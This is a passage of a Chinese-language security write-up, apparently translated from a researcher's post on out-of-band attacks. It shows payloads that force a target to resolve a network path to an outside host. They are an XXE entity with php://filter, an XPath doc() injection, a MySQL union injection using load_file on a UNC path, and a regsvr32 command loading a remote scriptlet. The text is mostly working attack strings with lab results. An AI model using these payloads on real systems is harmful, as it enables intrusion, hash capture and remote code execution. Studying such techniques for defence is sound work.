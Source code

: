 在这里，我使用了“php://filter/convert.base64-encode/resource=”脚本，该脚本能解析网络路径。



```
&lt;?xml version="1.0" encoding="ISO-8859-1"?&gt;
&lt;!DOCTYPE root [&lt;!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=//11.22.33.44/@OsandaMalith" &gt;
]&gt;
&lt;root&gt;
  &lt;name&gt;&lt;/name&gt;
  &lt;tel&gt;&lt;/tel&gt;
  &lt;email&gt;OUT&amp;xxe;OUT&lt;/email&gt;
  &lt;password&gt;&lt;/password&gt;
&lt;/root&gt;
```

下图是实验结果：

[![](https://p4.ssl.qhimg.com/t0139fdd47046dad715.png)](https://p4.ssl.qhimg.com/t0139fdd47046dad715.png)

<br>

**XPath注入(XPath Injection)**

通常，在out-of-band(OOB) XPath注入攻击中，doc()函数可用于解析网络路径。利用方法如下：

```
http://host.tld/?title=Foundation&amp;type=*&amp;rent_days=* and doc('//35.164.153.224/@OsandaMalith')
```

下图是实验结果：

[![](https://p4.ssl.qhimg.com/t013083681d4df264b9.png)](https://p4.ssl.qhimg.com/t013083681d4df264b9.png)

<br>

**MySql注入**

在MySql out-of-band注入中，我写了一篇完整的[帖子](https://osandamalith.com/2017/02/03/mysql-out-of-band-hacking/)，大家可以看一下，可用到互联网中。你也可以使用“INTO OUTFILE”去解析一个网络路径。利用方法如下：

```
http://host.tld/index.php?id=1’ union select 1,2,load_file(‘\\192.168.0.100\@OsandaMalith’),4;%00
```

下图是实验结果：

[![](https://p5.ssl.qhimg.com/t01087c7c9e6548488b.png)](https://p5.ssl.qhimg.com/t01087c7c9e6548488b.png)

<br>

**Regsvr32**

偶然的一个机会，我发现Regsvr32竟然也能实现我们的目的，利用方法如下：

```
regsvr32 /s /u /i://35.164.153.224/@OsandaMalith scrobj.dll
```

